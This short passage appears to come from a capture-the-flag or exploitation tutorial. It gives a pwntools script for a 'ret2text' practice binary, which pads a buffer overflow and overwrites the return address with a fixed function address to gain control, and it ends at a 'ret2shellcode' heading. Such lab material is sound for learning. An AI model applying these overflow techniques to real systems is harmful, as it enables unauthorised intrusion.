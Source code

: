 ![image-20220109225923257](/assets/img/2022/image-20220109225923257.png)

exp:

```python
from pwn import *

r = process('./ret2text')

magic_addr = 0x804863A
r.recvuntil('anything?\n')
p = 'a'*(0x6c+0x4)+p32(magic_addr)
r.sendline(p)

r.interactive()
```

### ret2shellcode
